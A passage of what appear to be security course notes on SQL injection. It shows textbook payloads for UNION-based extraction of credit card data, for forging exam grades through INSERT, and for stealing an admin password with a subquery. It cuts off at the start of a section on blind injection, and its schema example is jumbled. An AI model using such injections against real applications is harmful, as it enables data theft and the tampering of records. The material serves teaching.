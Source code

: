 which will display all contents of that table
Another possible injection is:
```SQL
SELECT name, phone, address FROM Users
WHERE Id=‘’ UNION ALL SELECT
name,creditCardNumber,CCV2 from
CreditCardTable;--’;
```
- Will show contents of a different table (!)
- Will work only if the number and the data types of the columns are the same
The only thing I need for these queries is the DB schema. This is a problem as some DB contains their schema in another table probably called schema.
Also SQL has an encoder and so you can change the type to adapt or use constants to fill/remove attributes that you do not want.
Only GRANTS are the restriction to the attacker workflow, also use separate DBMS for web applications.
#### Example: a little app that stores exam results
Schema:
```SQL
CREATE TABLE users (
 CREATE TABLE results (
id INTEGER ,
 id INTEGER ,
user VARCHAR(128),
 username VARCHAR(128),
password VARCHAR(128),
 grade VARCHAR,
result VARCHAR,
 PRIMARY KEY (id))
PRIMARY KEY (id))
```
Insertion:
```SQL
INSERT INTO results VALUES (NULL,‘username’,‘grade’)
INSERT INTO results VALUES (NULL, ’s.zanero’, ‘18’)
```

## Injections on Inserts
```SQL
INSERT INTO results VALUES (NULL, ‘useriput’, '18')
```
A possible injection is:
```SQL
INSERT INTO results VALUES (NULL, 's.zanero', '30L')
--', '18')
```
INSERT allows multiple tuples as values. We can register the exam also for a friend of ours:
```SQL
INSERT INTO results VALUES (NULL, 's.zanero', '30L'),
(NULL, 'f.maggi', '30L') --', '18')
```

What you are chopping is a list so you can write multiple value, can inject a table full of content. The attacker can inject everything he wants as long as it respect the schema. 
**Subqueries** can be used too: let’s steal the admin password (from another table):
```SQL
INSERT INTO results VALUES (NULL, 's.zanero',
(SELECT password from USERS where user='admin'))
--', '18')
```
**You will need to retrieve this data** if it’s selected somewhere or try a blind injection!
## Blind Injections
Some SQL queries, such as the login query we saw, do not display returned values
- Rather, they do, or do not do, stuff based on the return value
We cannot use them to directly display data